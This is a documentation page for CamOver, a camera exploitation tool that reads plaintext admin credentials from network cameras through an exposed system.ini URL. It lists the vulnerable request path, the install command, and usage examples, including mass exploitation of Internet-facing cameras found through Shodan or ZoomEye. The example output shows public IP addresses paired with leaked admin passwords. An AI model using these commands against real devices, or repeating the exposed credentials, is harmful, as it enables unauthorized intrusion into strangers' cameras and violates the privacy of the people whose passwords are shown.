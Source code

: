 ```yaml
---
title : "CamOver"
# pre : ' '
description : "CamOver is a camera exploitation tool that allows to disclosure network camera admin password."
date : 2021-07-06T11:40:36+02:00
# hidden : true
# draft : true
weight : 240
# tags : ['']
---
```


---

Is a camera exploitation tool that allows to disclosure network camera admin password.

**Features:**

- Exploits vulnerabilities in most popular camera models such as CCTV, GoAhead and Netwave.
- Optimized to exploit multiple cameras at one time from list with threading enabled.
- Simple CLI and API usage.

Tool effectively looks for `http://{address}/system.ini?loginuse&loginpas` and reads the `username:password` plaintext from the `system.ini` file.

## Installation

```plain
python3 -m pip install git+https://github.com/EntySec/CamOver
```

## Usage

```plain
camover [-h] [-t] [-o OUTPUT] [-i INPUT] [-a ADDRESS] [--shodan SHODAN] [--zoomeye ZOOMEYE] [-p PAGES]
```

## Flags

```plain
CamOver is a camera exploitation tool that allows to disclosure network camera admin password.

optional arguments:
  -h, --help            show this help message and exit
  -t, --threads         Use threads for fastest work.
  -o OUTPUT, --output OUTPUT
                        Output result to file.
  -i INPUT, --input INPUT
                        Input file of addresses.
  -a ADDRESS, --address ADDRESS
                        Single address.
  --shodan SHODAN       Shodan API key for exploiting devices over Internet.
  --zoomeye ZOOMEYE     ZoomEye API key for exploiting devices over Internet.
  -p PAGES, --pages PAGES
                        Number of pages you want to get from ZoomEye.
```

## Examples

### Exploiting single camera

Let's hack my camera just for fun.

```plain
camover -a 192.168.99.100
```

### Exploiting cameras from Internet

Let's try to use Shodan search engine to exploit cameras over Internet, we will use it with `-t` for fast exploitation.

```plain
camover -t --shodan [API-KEY]
```

```plain
$ camover -t --shodan [REDACTED]
[*] Authorizing Shodan by given API key...
[+] Authorization successfully completed!
[+] (84.99.151.248:81) - admin:SFR_2E98
[+] (37.116.187.4:81) - admin:Bebbo000
[+] (42.118.152.148:80) - admin:admin
[+] (37.108.23.82:99) - admin:Misiek22!
[+] (59.29.194.241:81) - admin:core7772
[+] (212.127.221.137:80) - admin:quercus2403
[+] (118.71.30.128:80) - admin:admin
[+] (201.188.20.77:80) - admin:216828103
[+] (86.41.122.211:88) - admin:IPCAM
[+] (187.155.117.123:80) - admin:123456
[+] (151.63.22.212:81) - admin:242893
[+] (200.126.178.171:81) - admin:888888
```

### Exploiting cameras from input file

Let's try to use opened database of cameras with -t for fast exploitation.

```plain
camover -t -i cameras.txt -o passwords.txt
```

NOTE: It will exploit all cameras in `cameras.txt` list by their addresses and save all obtained passwords to `passwords.txt`.

## URL List

- [Github.com - CamOver](https://github.com/EntySec/CamOver)
